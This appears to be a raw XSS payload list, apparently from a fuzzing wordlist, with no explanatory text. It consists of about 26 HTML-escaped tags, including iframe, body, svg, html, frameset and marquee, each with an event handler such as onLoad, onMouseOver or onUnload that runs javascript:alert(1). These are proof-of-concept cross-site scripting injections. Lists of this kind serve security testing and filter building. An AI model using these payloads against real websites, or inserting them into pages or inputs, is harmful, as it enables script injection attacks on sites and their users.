 &lt;iframe onLoad iframe onLoad="javascript:javascript:alert(1)"&gt;&lt;/iframe onLoad&gt;

&lt;body onMouseEnter body onMouseEnter="javascript:javascript:alert(1)"&gt;&lt;/body onMouseEnter&gt;

&lt;body onFocus body onFocus="javascript:javascript:alert(1)"&gt;&lt;/body onFocus&gt;

&lt;frameset onScroll frameset onScroll="javascript:javascript:alert(1)"&gt;&lt;/frameset onScroll&gt;

&lt;script onReadyStateChange script onReadyStateChange="javascript:javascript:alert(1)"&gt;&lt;/script onReadyStateChange&gt;

&lt;html onMouseUp html onMouseUp="javascript:javascript:alert(1)"&gt;&lt;/html onMouseUp&gt;

&lt;body onPropertyChange body onPropertyChange="javascript:javascript:alert(1)"&gt;&lt;/body onPropertyChange&gt;

&lt;svg onLoad svg onLoad="javascript:javascript:alert(1)"&gt;&lt;/svg onLoad&gt;

&lt;body onPageHide body onPageHide="javascript:javascript:alert(1)"&gt;&lt;/body onPageHide&gt;

&lt;body onMouseOver body onMouseOver="javascript:javascript:alert(1)"&gt;&lt;/body onMouseOver&gt;

&lt;body onUnload body onUnload="javascript:javascript:alert(1)"&gt;&lt;/body onUnload&gt;

&lt;body onLoad body onLoad="javascript:javascript:alert(1)"&gt;&lt;/body onLoad&gt;

&lt;bgsound onPropertyChange bgsound onPropertyChange="javascript:javascript:alert(1)"&gt;&lt;/bgsound onPropertyChange&gt;

&lt;html onMouseLeave html onMouseLeave="javascript:javascript:alert(1)"&gt;&lt;/html onMouseLeave&gt;

&lt;html onMouseWheel html onMouseWheel="javascript:javascript:alert(1)"&gt;&lt;/html onMouseWheel&gt;

&lt;style onLoad style onLoad="javascript:javascript:alert(1)"&gt;&lt;/style onLoad&gt;

&lt;iframe onReadyStateChange iframe onReadyStateChange="javascript:javascript:alert(1)"&gt;&lt;/iframe onReadyStateChange&gt;

&lt;body onPageShow body onPageShow="javascript:javascript:alert(1)"&gt;&lt;/body onPageShow&gt;

&lt;style onReadyStateChange style onReadyStateChange="javascript:javascript:alert(1)"&gt;&lt;/style onReadyStateChange&gt;

&lt;frameset onFocus frameset onFocus="javascript:javascript:alert(1)"&gt;&lt;/frameset onFocus&gt;

&lt;applet onError applet onError="javascript:javascript:alert(1)"&gt;&lt;/applet onError&gt;

&lt;marquee onStart marquee onStart="javascript:javascript:alert(1)"&gt;&lt;/marquee onStart&gt;

&lt;script onLoad script onLoad="javascript:javascript:alert(1)"&gt;&lt;/script onLoad&gt;

&lt;html onMouseOver html onMouseOver="javascript:javascript:alert(1)"&gt;&lt;/html onMouseOver&gt;

&lt;html onMouseEnter html onMouseEnter="javascript:parent.javascript:alert(1)"&gt;&lt;/html onMouseEnter&gt;

&lt;body onBeforeUnload body onBeforeUnload="javascript:javascript:alert(1)"&gt;&lt;/body onBeforeUnload&gt;

